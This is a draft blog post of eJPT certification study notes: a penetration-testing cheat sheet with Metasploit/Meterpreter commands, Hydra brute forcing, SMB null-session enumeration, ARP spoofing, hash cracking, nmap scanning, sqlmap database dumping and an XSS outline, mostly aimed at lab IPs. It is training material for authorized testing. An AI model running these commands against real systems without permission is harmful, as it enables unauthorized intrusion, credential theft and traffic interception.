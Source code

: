 +++
date = '2024-11-19T21:15:08+01:00'
draft = true
title = 'eJPT Exam Prep'
+++

# Metasploit

Basic Commands

```
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)
```

Meterpreter Commands

```
background
sessions -l
sessions -i 1
sysinfo, ifconfig, route, getuid
getsystem (privesc)
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```

# Networking Attacks

Brute Force with Hydra

```
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

Windows Shares with null sessions

```
nmblookup -A 10.10.10.10
smbclient -L //10.10.10.10 -N (list shares)
smbclient //10.10.10.10/share -N (mount share)
enum4linux -a 10.10.10.10
```

ARP Spoofing

```
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
```

---
description: Using enum4linux and samrdump.py
---

# Null Sessions

```
enum4linux -n IP
enum4linux -P IP
enum4linux -s /user/share/enum4linux/share-list.txt IP
enum4linux -a IP

cd /usr/share/doc/python-impacket-doc/examples
python samrdump.py IP 

nmap -script=smb-enum-shares IP
nmap -script=smb-enum-users IP
nmap -script=smb-brute IP
```

# Password Bruteforce

First we need to prepare the file for John

```
unshadow passwd shadow > unshadow
```

For hash cracking:

```
john -wordlist /path/to/wordlist -users=users.txt hashfile
```

# Scanning

Best NMAP Scan

```
sudo nmap -T4 -Pn -n -vv -p- -A --open -iL ips.txt
```

Whois

```
whois site.com
```

Ping sweep

```
fping -a -g 10.10.10.0/24 2>/dev/null
nmap -sn 10.10.10.0/24
```

OS Detection

```
nmap -Pn -O 10.10.10.10
```

Nmap Quick Scan

```
nmap -sC -sV 10.10.10.10
```

Nmap Full Scan

```
nmap -sC -sV -p- 10.10.10.10
```

Banner Grabbing

```
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

More Banner Grabbing

```
nmap -sV --script=banner 192.73.96.0/24
```

More Nmap port discovery without ping sweep

```
nmap -p- -Pn -vv -T4 -n IP
```

Port information

```
nmap -sC -sV -p PORT IP
```

Lookup of Nmap scripts

```
locate .nse
```

Vulnerability searching Nmap

```
nmap -sV -sC --script vuln -oN blue.nmap 10.10.126.213
```

Nmap SynScan usefull for nullsessions (enum4linux next)

```
nmap -sS -p 135,139,445 IP.0-255
```

# SQLi

```
sqlmap -u http://10.10.10.10 -p parameter
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
sqlmap -u http://10.10.10.10 --os-shell
sqlmap -u http://10.10.10.10 --dump
--cookie !!
```

Example:

<pre><code><strong>sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title
</strong><strong>sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs
</strong>sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump
</code></pre>

This last example is for a GET sql injection. For a POST injection save the post from burpsuite and execute the following command.

```
sqlmap -r request -p title
```

# Subdomain Enumeration

Dirsearch or gobuster are both good options

```
dirsearch.py -u http://10.10.10.10 -e *
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
```

# Vuln Assessment

Rapid7

```
{% embed url="https://www.rapid7.com/db/" %}
```

Exploit-DB

```
{% embed url="https://www.exploit-db.com/" %}
```

# XSS

Reflected XSS = Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload&#x20;

Persistent XSS = Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post

```
1. Find a reflection point
2. Test with <i> tag
3. Test with HTML/JavaScript code (alert('XSS'))
```

